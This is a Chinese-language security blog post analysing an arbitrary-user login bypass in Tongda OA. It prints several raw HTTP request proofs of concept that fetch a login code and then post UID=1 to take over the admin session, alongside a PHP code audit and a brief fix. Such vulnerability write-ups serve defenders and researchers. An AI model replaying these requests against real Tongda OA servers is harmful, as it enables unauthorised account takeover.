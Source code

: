 ```yaml
---
layout: post
title:  "通达OA越权登录漏洞分析"
categories: 代码审计
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA越权登录漏洞的分析文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 0x01 漏洞概述

2020年4月中旬的时候，通达OA发布了11.5新版本。国内安全研究人员通过代码比对，发现了此漏洞。此漏洞可以越权登录任意用户账号，影响极大。

漏洞成因是由于前台登陆时未作权限验证，程序开启全局覆盖，可以直接覆盖 _SESSION 里的数据造成任意用户登陆。 服务端只取了UID来做用户身份鉴别，由于UID是整型递增ID，从而导致可以登录指定UID用户。

## 0x02 漏洞分析

- 影响版本：通达OA2017、V11.X<V11.5
- 发现时间：2020-04-01

### 一、Payload

先上payload。

11.4版poc1：

```
GET /general/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

```
GET /ispirit/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

11.4版poc2:

```
POST /logincheck_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

CODEUID=%7BF1643A67-D96F-BB39-E350-AED1A70E5FB9%7D&UID=1
```

2017版poc1：

```
GET /ispirit/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

2017版poc2：

```
POST //general/login_code_scan.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 94
Content-Type: application/x-www-form-urlencoded

codeuid=%7B000EB6B8-3595-474D-F673-6BD8B187388D%7D&uid=1&source=pc&type=confirm&username=admin
```

2017版poc3：

```
GET //ispirit/login_code_check.php?codeuid=%7B000EB6B8-3595-474D-F673-6BD8B187388D%7D HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

### 二、代码审计

- /logincheck_code.php:11-18行。UID通过post传参。如果CODEUID存在，则不会exit。

  ```php
  $redis = TRedis::redis();
  $UID = intval($_POST["UID"]);
  $CODEUID = $_POST["CODEUID"];
  $login_codeuid = TD::get_cache("CODE_LOGIN" . $CODEUID);
  if (!isset($login_codeuid) || empty($login_codeuid)) {
  	$databack = array("status" => 0, "msg" => _("参数错误！"), "url" => "general/index.php?isIE=0");
  	echo json_encode(td_iconv($databack, MYOA_CHARSET, "utf-8"));
  	exit();
  ```

- /logincheck_code.php:180行。UID用户可控。CODEUID用户可控。

  ```php
  $LOGIN_UID = $UID;
  $LOGIN_USER_ID = $USER_ID;
  $LOGIN_BYNAME = $BYNAME;
  $LOGIN_USER_NAME = $USERNAME;
  $LOGIN_ANOTHER = "0";
  $LOGIN_USER_PRIV_OTHER = $USER_PRIV_OTHER;
  $LOGIN_DEPT_ID_JUNIOR = GetUnionSetOfChildDeptId($LOGIN_DEPT_ID . "," . $LOGIN_DEPT_ID_OTHER);
  $LOGIN_CLIENT = 0;
  $_SESSION["LOGIN_UID"] = $LOGIN_UID;
  $_SESSION["LOGIN_USER_ID"] = $LOGIN_USER_ID;
  ```

- /logincheck_code.php:164行。通过UID的值去数据库里面去取值，

  > $UID -> $query1 -> $cursor1 -> $row

  ```php
  $LOGIN_FUNC_STR = "";
  $query1 = "select user_func_id_str from user_function where uid='$UID'";
  $cursor1 = exequery(TD::conn(), $query1);
  
  if ($row = mysql_fetch_array($cursor1)) {
  	$LOGIN_FUNC_STR = $row["user_
  ```

### 三、漏洞修复

不要通过用户可控的UID作为权限校验的方法。

## 0x03 参考链接

- http://www.0e0w.com
